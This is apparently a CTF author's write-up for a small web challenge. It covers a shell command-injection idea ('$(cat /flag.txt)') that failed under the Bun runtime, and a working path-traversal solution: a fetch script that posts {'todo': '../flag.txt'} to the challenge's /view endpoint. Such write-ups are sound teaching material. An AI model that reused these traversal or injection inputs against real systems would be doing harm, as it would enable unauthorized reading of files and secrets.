 # Databases are for noobs
### Difficulty: 0.6
### available at: https://ctf.rustalytics.com

# How did it go developing it?
The vulnurability I was trying to expose did not work the way I intended. This probably has to do with the [Bun runtime](https://bun.sh/) not excecuting bash the way I thought it would.
for example:

```js
//You would thinkg writing $(cat /flag.txt) would make that excecte and input the flag to the file but it doesn't
//Instead it writes the actual string "$(cat /flag.txt)" into the file and not excecuting
const createfile = await $`echo ${data1} > ${req.query.auth}/${data2}`.text()
```
The difficulty is changed from a 0.4 to a 0.6.
This is because there is not much knowledge about bash required as it is only a path and the auth is exposed in the query params and not in the headers so it is easy to notice
Now you just have to understand that the "todo" is read is a directory
# What does the hacker have access to?
The hacker has access to only the website before finding the exploit.
The website sends 3 different serevr requests:
* /view: opens a file/todo (like cat), This is where you solve it
* /list: lists the todos (like ls). I did an empty path so it will be easier for the hacker to find the flag when they found the exploit
* /create: echos data into a file. This was meant to be the exploit but as meanti9oned above it never worked
# How do you solve it
It is solved by sending a request to the /view endpoint with a body that goes to the flag
The auth has to exist so people don't have the same todos when going to the website
I also think that is a good skill to learn that you often can copy the auth tokens from the web cookies/headers or query params to use an API with a script
This is how my project [Rustalytics](https://rustalytics.com) has done with the api endpoints of a rust server to provide a good service
```js
let headersList = {
 "Accept": "*/*",
 "User-Agent": "Thunder Client (https://www.thunderclient.com)",
 "Content-Type": "application/json"
}

let bodyContent = JSON.stringify({"todo": "../flag.txt"});
const id = ""//your auth id
let response = await fetch(`https://ctfdb.rustalytics.com/view?auth=${id}`, { 
  method: "POST",
  body: bodyContent,
  headers: headersList
});

let data = await response.text();
console.log(data);

``` 
